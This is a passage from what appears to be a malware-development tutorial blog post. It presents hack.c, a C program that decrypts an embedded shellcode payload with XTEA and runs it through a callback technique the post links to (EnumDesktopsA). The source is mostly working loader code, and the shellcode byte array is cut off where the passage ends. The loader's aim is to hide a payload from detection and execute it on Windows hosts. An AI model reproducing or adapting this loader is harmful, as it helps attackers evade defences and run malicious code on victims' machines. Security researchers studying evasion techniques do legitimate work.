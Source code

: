 As you can see, it's implemented with the same `delta = 0x9e3779b9`.     

For simplicity, I used running shellcode [via EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html) logic.      

Finally, full source code is looks like this (`hack.c`):    

```cpp
/*
 * hack.c
 * with decrypt payload via XTEA
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/11/23/malware-cryptography-22.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#define KEY_SIZE 16
#define ROUNDS 32

void xtea_encrypt(unsigned int *data, unsigned int *key) {
  unsigned int v0 = data[0], v1 = data[1];
  unsigned int sum = 0, delta = 0x9e3779b9;

  for (int i = 0; i < ROUNDS; i++) {
    v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
    sum += delta;
    v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum >> 11) & 3]);
  }

  data[0] = v0;
  data[1] = v1;
}

void xtea_decrypt(unsigned int *data, unsigned int *key) {
  unsigned int v0 = data[0], v1 = data[1];
  unsigned int sum = 0xC6EF3720, delta = 0x9e3779b9; // sum for decryption

  for (int i = 0; i < ROUNDS; i++) {
    v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum >> 11) & 3]);
    sum -= delta;
    v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
  }

  data[0] = v0;
  data[1] = v1;
}

int main() {
  unsigned int key[4] = {0x6d6f776d, 0x656f776d, 0x6f776d65, 0x776d656f};
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
```